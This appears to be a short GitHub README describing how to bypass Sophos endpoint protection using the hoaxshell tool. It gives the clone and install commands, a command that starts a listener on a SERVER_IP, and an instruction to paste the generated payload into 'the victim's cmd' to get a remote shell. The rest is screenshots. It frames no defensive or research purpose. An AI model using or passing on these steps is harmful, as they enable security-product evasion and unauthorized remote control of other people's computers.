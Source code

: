 ![image-removebg-preview](https://github.com/HackWithSumit/SOPHOS-Firewall-Bypass/assets/120317751/1fffa714-6e97-4e18-ad11-ea4729bdc626)


## Bypassing Sophos Endpoint Protection With Hoaxshell

Download the hoaxshell in github

```
  git clone https://github.com/t3l3machus/hoaxshell
  cd ./hoaxshell
  sudo pip3 install -r requirements.txt
  chmod +x hoaxshell.py
```

Command:

```
python3 hoaxshell.py -s SERVER_IP
```

Now just copy the payload generated by hoaxshell and go to the victim's cmd, now just paste the payload

![](../Sophos/Images/sophoshs.png)

## Execution

![](../Sophos/Images/sophoshs1.png)
